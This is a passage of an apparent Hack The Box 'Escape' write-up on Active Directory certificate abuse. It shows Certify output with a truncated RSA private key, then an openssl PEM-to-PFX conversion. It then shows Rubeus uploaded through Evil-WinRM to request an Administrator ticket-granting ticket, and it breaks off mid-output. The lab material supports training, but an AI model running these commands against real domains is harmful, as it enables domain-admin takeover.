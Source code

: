 ```powershell
[*] Request ID              : 10

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAwViYcNVIk8e2CG0mU33Uad3Hs82tXYhPTmLNZ/n/6gJD7Odz
A9t7fE2Ep3IhJ/IpmBp9rHIv+/aS9uQ41b+0pKVkzlRsZTVRDNBoMbebcvm/OSez
mN57W29CZFztJS+ebwTl9SjutA69z2iQthq4Ja0FaWdWYIC3CNTIHygqt1xfY6wx
4SrQZjeSnrqBUmT3UopJvkfvsvaLeLzfwyk24fll2MQ1ShZ2wkD5TgIoAe53VNWY
r+vHjbLWN5ltVkmSptnTIz2dsch52N9vX64drxEb4V51t3siGjTg/KgWP6fUHYpv
rP7taJH3rMwPFgSiXOPOk4rRroLNEtT3H1YgAQIDAQABAoIBAHrZ+nKncuhDm4yb
.
.
.
```

#### Step 2 - Transform the certificate from PEM to PFX format

We can copy the certificate that Certify has provided us with and transform it to `.pfx` format using `openssl`.

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Step 3 - Request Administrator TGT

We now have a certificate to authenticate as `Administrator`. What we can do now, is to issue ourselves a `Ticket Granting Ticket` (TGT). We can do this with [Rubeus](https://github.com/GhostPack/Rubeus). We again download and compile from source in our Windows VM and upload it to the box.

```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\programdata\cert.pfx
```

We upload the `cert.pfx` and `Rubeus.exe` onto the target machine and run the above command.

```powershell
*Evil-WinRM* PS C:\programdata> upload /home/qurius/htb/boxes/medium/owned/Escape/cert.pfx

Info: Uploading /home/qurius/htb/boxes/medium/owned/Escape/cert.pfx to C:\programdata\cert.pfx

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload /home/qurius/htb/boxes/medium/owned/Escape/Rubeus.exe

Info: Uploading /home/qurius/htb/boxes/medium/owned/Escape/Rubeus.exe to C:\programdata\Rubeus.exe

Data: 370688 bytes of 370688 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe asktgt /user:Administrator /certificate:C:\programdata\cert.pfx

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
```